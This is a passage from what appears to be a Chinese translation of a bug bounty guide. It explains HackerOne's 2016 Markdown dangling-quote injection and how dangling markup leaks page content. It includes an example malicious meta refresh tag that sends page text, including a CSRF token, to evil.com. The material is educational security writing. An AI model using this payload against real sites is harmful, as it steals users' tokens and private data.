 当你测试一个网站时，检查它如何处理不同类型的输入，包括纯文本和编码文本。注意检查那些接受 URI 编码值（如 `%2F`）并渲染其解码值的网站，在这种情况下，解码值将是 `/`。

你可以在 *[`gchq.github.io/CyberChef/`](https://gchq.github.io/CyberChef/)* 找到一个很棒的瑞士军刀工具，其中包括编码工具。查看一下，试试它支持的各种编码类型。

### **HackerOne 意外的 HTML 插入**

**难度：** 中等

**网址：** *https://hackerone.com/reports/<report_id>/*

**来源：** *[`hackerone.com/reports/110578/`](https://hackerone.com/reports/110578/)*

**报告日期：** 2016 年 1 月 13 日

**奖励金额：** 500 美元

这个示例和接下来的部分需要了解 Markdown、悬挂单引号、React 和文档对象模型（DOM），所以我会首先介绍这些主题，然后再讨论它们如何导致两个相关的漏洞。

*Markdown* 是一种标记语言，使用特定的语法生成 HTML。例如，Markdown 会接受并解析以井号符号（`#`）为前缀的纯文本，将其转换为格式化为头部标签的 HTML。标记 `# Some Content` 会生成 HTML `<h1>Some Content</h1>`。开发人员常常在网站编辑器中使用 Markdown，因为它是一种易于使用的语言。此外，在允许用户提交输入的站点上，开发人员不需要担心 HTML 格式错误，因为编辑器会为他们处理 HTML 的生成。

我将在这里讨论的 bug 利用了 Markdown 语法生成了一个带有 `title` 属性的 `<a>` 锚标签。通常，这种语法是：

```
[test](https://torontowebsitedeveloper.com "Your title tag here")
```

方括号之间的文本变成了显示文本，链接的网址包含在括号内，并带有一个 `title` 属性，该属性被包含在一对双引号中。这种语法会生成以下 HTML：

```
<a href="https://torontowebsitedeveloper.com" title="Your title tag here">test</a>
```

2016 年 1 月，漏洞猎人 Inti De Ceukelaire 注意到 HackerOne 的 Markdown 编辑器配置错误；因此，攻击者可以将一个悬挂的单引号注入到 Markdown 语法中，这个引号会包含在生成的 HTML 中，任何使用 Markdown 编辑器的地方都会受到影响。漏洞赏金计划管理页面以及报告都存在漏洞。这是非常重要的：如果攻击者能够在管理页面找到第二个漏洞，并将第二个悬挂引号注入到页面开头的 `<meta>` 标签中（无论是通过注入 `<meta>` 标签，还是找到 `<meta>` 标签中的注入点），他们就可以利用浏览器的 HTML 解析功能泄露页面内容。原因是 `<meta>` 标签告诉浏览器通过标签的 `content` 属性中定义的 URL 刷新页面。渲染页面时，浏览器会对指定的 URL 执行 `GET` 请求。页面中的内容可以作为 `GET` 请求的参数发送，攻击者可以利用这些信息来提取目标的数据。以下是一个带有注入单引号的恶意 `<meta>` 标签可能的样子：

```
<meta http-equiv="refresh" content='0; url=https://evil.com/log.php?text=
```

`0` 定义了浏览器在发起 HTTP 请求之前等待的时间。在这种情况下，浏览器会立即向 *https://evil.com/log.php?text=* 发起 HTTP 请求。HTTP 请求将包含从 `content` 属性开始的单引号之间的所有内容，以及攻击者通过网页上的 Markdown 解析器注入的单引号。以下是一个示例：

```
<html>

  <head>

    <meta http-equiv="refresh" content=➊'0; url=https://evil.com/log.php?text=

  </head>

  <body>

    <h1>Some content</h1>

    --snip--

    <input type="hidden" name="csrf-token" value= "ab34513cdfe123ad1f">

    --snip--

    <p>attacker input with '➋ </p>

    --snip--

  </body>
```